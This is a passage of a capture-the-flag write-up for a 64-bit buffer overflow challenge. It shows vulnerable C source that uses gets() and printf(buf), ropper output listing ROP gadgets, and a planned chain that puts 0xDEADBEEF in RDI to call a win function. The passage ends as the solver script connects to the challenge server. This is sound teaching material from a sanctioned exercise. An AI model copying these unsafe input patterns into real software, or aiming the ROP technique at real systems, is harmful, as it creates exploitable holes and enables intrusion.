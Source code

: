 ```c
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}
```
The main function of the program calls the vuln function, which grabs input from stdin using gets. The objective is to use this input to invoke the win1 and win2 functions with their arguments set, and then finally call the flag function to print the flag.

### 2. Get to the win1 function
The size of the buffer is 64 bytes. Once that is written through, along with another 8 bytes, the argument 0xDEADBEEF needs to go into the RDI register - again referring to https://en.wikipedia.org/wiki/X86_calling_conventions, before the first function can be called. I can already see I will have to use ROP gadgets to accomplish this, so in ropper I'll do a search for pop instructions.
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ ropper --file vuln --search pop
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: vuln
0x000000000040099c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040099e: pop r13; pop r14; pop r15; ret; 
0x00000000004009a0: pop r14; pop r15; ret; 
0x00000000004009a2: pop r15; ret; 
0x00000000004006db: pop rbp; mov edi, 0x601070; jmp rax; 
0x000000000040099b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040099f: pop rbp; pop r14; pop r15; ret; 
0x00000000004006e8: pop rbp; ret; 
0x00000000004009a3: pop rdi; ret; 	<------ This one
0x00000000004009a1: pop rsi; pop r15; ret; 
0x000000000040099d: pop rsp; pop r13; pop r14; pop r15; ret;
```
The pop rdi; ret instruction is perfect. The ropchain is constructed as follows:
`pop rdi + argument + win_fn1`  
For testing's sake, I'll add the final flag winning function address onto the end of the chain and test this payload so far to ensure I haven't broken anything yet.
```bash
kali@kali:~/Desktop/pctf/newoverflow2$ python solve.py 
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] jib1337@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
```